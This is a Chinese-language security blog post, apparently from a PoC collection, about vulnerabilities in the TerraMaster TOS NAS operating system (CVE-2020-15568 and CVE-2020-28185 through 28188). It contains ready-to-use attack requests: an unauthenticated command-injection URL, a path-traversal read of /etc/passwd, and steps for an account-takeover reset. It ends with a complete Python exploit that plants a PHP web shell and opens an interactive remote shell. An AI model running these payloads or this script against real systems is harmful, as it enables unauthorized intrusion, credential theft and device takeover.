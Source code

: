 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/GAOliqwEqXOsQ4LeNDCQaw)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

```
TerraMaster TOS RCE CVE-2020-28188
TerraMaster TOS 任意文件读取漏洞 CVE-2020-28187
TerraMaster TOS 任意账号密码修改漏洞 CVE-2020-28186
TerraMaster TOS 用户枚举漏洞 CVE-2020-28185
TerraMaster TOS exportUser.php 远程命令执行
```

**二:  漏洞影响🐇**

**TerraMaster TOS**

**三:  漏洞复现🐋**

```
TerraMaster TOS exportUser.php 远程命令执行 CVE-2020-15568
```

出现漏洞的文件 **_exportUser.php_**

```
<?php
include_once "./app.php"; // [1] autoload classes
class CSV_Writer{
        ...
    }
    $type = $_GET['type'];
    $csv = new CSV_Writer();
if($type == 1){
        $P = new person();
        $data = $P->export_user($_GET['data']);
        $csv->exportUser($data);
    } else if($type == 2) {
        $P = new person();
        $data = $P->export_userGroup($_GET['data']);
        $csv->exportUsergroup($data);
    } else { // [2] type value is bigger than 2
//xlsx通用下载
        $type = 0;
        $class = $_GET['cla'];
        $fun = $_GET['func'];
        $opt = $_GET['opt'];
        $E = new $class();
        $data = $E->$fun($opt); // [3] vulnerable code call
        $csv->exportExcel( $data['title'], $data['data'], $data['name'], $data['save'], $data['down']);
    }
?>
```

**在其他文件的代码检查期间，也发现有一种方法可以利用 TOS 软件中预先存在的类来利用此问题。位于 **include/class/application.class.php** 中的 PHP 类是在运行 TOS 软件的设备上执行命令的最佳人选。**  

**由于 _exportUser.php_ 没有身份验证控件，因此未经身份验证的攻击者有可能通过提供以下值作为 HTTP GET 参数来实现代码执行。**

```
http://xxx.xxx.xxx.xxx/include/exportUser.php?type=3&cla=application&func=_exec&opt=(cat%20/etc/passwd)>pq.txt
```

**返回 200 后再次访问**

```
http://xxx.xxx.xxx.xxx/include/pq.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6cEgwtboqU6UBiazhGbsaEhCZJ61uVD9RPbSyhIiatmaFvbqgkICelfMBJPKkgzPCnpuB3W3bEzarA/640?wx_fmt=png)

```
TerraMaster TOS 用户枚举漏洞 CVE-2020-28185
```

**漏洞点来源于找回密码的用户存在校验**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6cEgwtboqU6UBiazhGbsaEhDwoHntoneY5stnm1laTqZf3d2uPibvZnHSkMBiaf3Jje55mnTRcBoxiaw/640?wx_fmt=png)

**输入用户名 admin 点击确定，查看 Burp 捕获的包**

**其中有一个请求包用于确认用户 admin 是否存在**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6cEgwtboqU6UBiazhGbsaEhO6sWFcuGnhdh0DpDNEbj0LiaGuTJYSBcSAsGAuQ9wrcARDB3MEy9ezA/640?wx_fmt=png)

**存在则返回用户的邮箱信息**

```
TerraMaster TOS 任意账号密码修改漏洞 CVE-2020-28186
```

**首先需要知道已知用户名，可以参考 TerraMaster TOS 用户枚举漏洞 CVE-2020-28185 获取已知的用户名**

**重置页面输入获取的账号和邮箱**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6cEgwtboqU6UBiazhGbsaEhsyME9ib3E3UZIgEJwdryHH7QXXefzyicSnjJ7Aiaibj9OSBUKCbXS5ZI7Q/640?wx_fmt=png)

**点击确定，抓包更换邮箱接收验证码**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6cEgwtboqU6UBiazhGbsaEhT0ichW2s2PRQCD9uhBx2SdzlmNm8dbSMpmrD68nxjfdPiaEDmON5UB1g/640?wx_fmt=png)

**通过接收的验证码即可更换账号密码登录后台**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6cEgwtboqU6UBiazhGbsaEhH62EHlAKlrAMRaSI1iaw0XKm5qKKnianCNYBdfozshhficfwGokwF8mzA/640?wx_fmt=png)

```
TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187
```

**登陆后访问，验证漏洞的 POC 为**  

```
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6cEgwtboqU6UBiazhGbsaEhWAEdGY8zzhQS5oOPaBBv87WbnD4NEGt5HnBSyTOftYJaEYxxax21BQ/640?wx_fmt=png)

```
TerraMaster TOS RCE CVE-2020-28188
```

**存在漏洞的为 **/include/makecvs.php** 中的 Event 参数**

**使用 EXP 文件上传并执行命令**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6cEgwtboqU6UBiazhGbsaEhuOA6KcxjAfRx02KibOYibornPMibQIxaVKCsfDcsUGCPia4HHp1ExHJNvw/640?wx_fmt=png)

 ****四:  漏洞 POC🦉****

```
# Exploit Title: TerraMaster TOS 4.2.06 - RCE (Unauthenticated)
# Date: 12/12/2020
# Exploit Author: IHTeam
# Full Write-up: https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
# Vendor Homepage: https://www.terra-master.com/
# Version: <= 4.2.06
# Tested on: 4.1.30, 4.2.06
#!/usr/bin/env python3
import argparse
import requests
import time
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
parser = argparse.ArgumentParser(description="TerraMaster TOS <= 4.2.06 Unauth RCE")
parser.add_argument('--url', action='store', dest='url', required=True, help="Full URL and port e.g.: http://192.168.1.111:8081/")
args = parser.parse_args()
url = args.url
headers = {'User-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36'}
epoch_time = int(time.time())
shell_filename = "debug"+str(epoch_time)+".php"
def check_endpoint(url, headers):
  response = requests.get(url+'/version', headers=headers, verify=False)
if response.status_code == 200:
    print("[+] TerraMaster TOS version: ", str(response.content))
else:
    print("\n[-] TerraMaster TOS response code: ", response.status_code)
    sys.exit()
def upload_shell(url, headers, shell_filename):
  payload = "http|echo \"<?php echo(passthru(\\$_GET['cmd']));?>\" >> /usr/www/"+shell_filename+" && chmod +x /usr/www/"+shell_filename+"||"
  payload = urllib.parse.quote(payload, safe='')
  print("[/] Uploading shell...")
  response = requests.get(url+'/include/makecvs.php?Event='+payload, headers=headers, verify=False)
  time.sleep(1)
  response = requests.get(url+'/'+shell_filename+'?cmd=cat /etc/passwd', headers=headers, verify=False)
if ('root:' in str(response.content, 'utf-8')):
    print("[+] Upload succeeded")
else:
    print("\n[-] Error uploading shell: ", response.content)
    sys.exit()
def interactive_shell(url, headers, shell_filename, cmd):
  response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(cmd, safe=''), headers=headers, verify=False)
  print(str(response.text)+"\n")
def delete_shell(url, headers, shell_filename):
  delcmd = "rm /usr/www/"+shell_filename
  response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(delcmd, safe=''), headers=headers, verify=False)
  print("\n[+] Shell deleted")
upload_shell(url, headers, shell_filename)
try:
while True:
    cmd = input("# ")
    interactive_shell(url, headers, shell_filename, cmd)
except:
  delete_shell(url, headers, shell_filename)
```

**参考链接  
**

**https://mp.weixin.qq.com/s/w7gF4V9TMbYeknWaYNXctA**

 ****五:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**